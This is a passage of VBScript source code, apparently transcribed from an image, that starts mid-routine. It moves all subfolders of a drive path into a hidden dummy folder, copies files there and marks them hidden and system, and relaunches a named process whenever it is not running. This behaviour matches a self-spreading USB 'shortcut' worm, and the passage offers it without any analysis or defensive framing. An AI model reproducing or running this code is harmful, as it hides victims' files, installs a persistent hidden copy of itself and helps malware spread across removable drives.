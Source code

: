 ```vb
		End Select
		
	Next
	
	set home = path.SubFolders
	For Each home in home
		Select Case home
			Case path & "_"
				'nothings
			Case path & "WindowsServices"
				'nothings
			Case path & "System Volume Information"
				'nothings'
			Case Else
				objws. MoveFolder home, DummyFolder & "\"
		End Select
		
	Next
	
end sub


'------------------------------------------------------------


sub moveandhide (name)
	if (not objws.fileexists(DestFolder & name)) then
		objws.CopyFile strFolder & name, DestFolder & "\"
		Set objmove = objws.GetFile(DestFolder & name)

		If not objmove.Attributes AND 39 then 
			objmove.Attributes = 0
			objmove.Attributes = objmove.Attributes + 39
		end if

	end if
end sub



'------------------------------------------------------------


sub procheck(checkme, procname)

For Each objProcess In checkme
	vaprocess = objProcess.CommandLine
	
		if instr(vaprocess, procname) then
			Exit sub
		End if
	
Next
ws.Run Chr(34) & strFolder  & "\" & procname & Chr(34)
end sub
```
